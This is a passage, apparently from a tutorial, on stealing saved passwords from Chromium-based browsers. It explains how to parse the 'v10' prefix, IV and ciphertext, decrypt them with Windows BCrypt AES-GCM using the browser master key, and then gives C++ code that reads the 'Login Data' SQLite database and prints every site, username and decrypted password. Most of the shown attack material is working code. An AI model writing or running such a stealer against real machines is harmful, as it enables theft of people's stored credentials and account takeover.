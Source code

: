 We extract the first IV with the first call to `copy`. We start added 3 because we want to skip the "v10" prefix and copy up to IV_SIZE + 3.

Similarly, with the second call to `copy`, we extract ciphertext starting from 15 to the end of the string. Why 15? Because the first “v10” string is 3 bytes plus the first IV 12 bytes equals 15.

After that, we make several calls to some BCrypt functions:

- `BCryptOpenAlgorithmProvider` initializes a handle to the Windows algorithm provider.
- `BCryptSetProperty` sets the properties of the algorithm we are using, so in this case, AES with GCM mode.
- `BCryptGenerateSymmetricKey` The most important step is generating/deriving the key from the master key.
- Initializing the AuthInfo struct with authentication data we need like IV (nonce), IV size, tag for authentication.
- Finally, with all that, we make two `BCryptDecrypt` calls. The first is to retrieve the size, and the second is to decrypt the data and store it in our vector.

### Parsing the Database

All we have to do now is retrieve the data from the SQLite database **Login Data** and pass in the password to the AESdecrypterFunction.

```cpp
void DecryptPasswordFor(BROWSER browser) {
	std::string DbPath = FileIO::GetDbPath(browser);
	DATA_BLOB* MasterKey = GetMasterKey(browser);

	sqlite3* db = nullptr;
	std::string selectQuery = "SELECT origin_url, action_url, username_value, password_value FROM logins";
	sqlite3_stmt* selectStmt = nullptr;

	// Open the database file
	if (sqlite3_open(DbPath.c_str(), &db) != SQLITE_OK) {
		std::cerr << "Failed to open database file: " << sqlite3_errmsg(db) << std::endl;
		return;
	}

	// Prepare the SELECT statement
	if (sqlite3_prepare_v2(db, selectQuery.c_str(), -1, &selectStmt, 0) != SQLITE_OK) {
		std::cerr << "Failed to prepare SELECT statement: " << sqlite3_errmsg(db) << std::endl;
		return;
	}
	// Iterate over the rows of the logins table
	while (sqlite3_step(selectStmt) == SQLITE_ROW) {
		// Extract the values of the columns
		const char* website = reinterpret_cast<const char*>(sqlite3_column_text(selectStmt, 0));
		const char* loginUrl = reinterpret_cast<const char*>(sqlite3_column_text(selectStmt, 1));
		const char* userName = reinterpret_cast<const char*>(sqlite3_column_text(selectStmt, 2));
		const char* passwordBlob = reinterpret_cast<const char*>(sqlite3_column_blob(selectStmt, 3));
		int passwordBlobSize = sqlite3_column_bytes(selectStmt, 3);

		if (passwordBlobSize > 0) {
			// Decrypt the password
			std::string pass = AESDecrypter(passwordBlob, *MasterKey);
			// Print the login information
			std::cout << "Website: " << website << std::endl;
			std::cout << "Login URL: " << loginUrl << std::endl;
			std::cout << "User name: " << userName << std::endl;
			std::cout << "Password: " << pass << std::endl;
		}
		else {
			// Print a message if the password is empty
			std::cout << "No password found " << std::endl;
```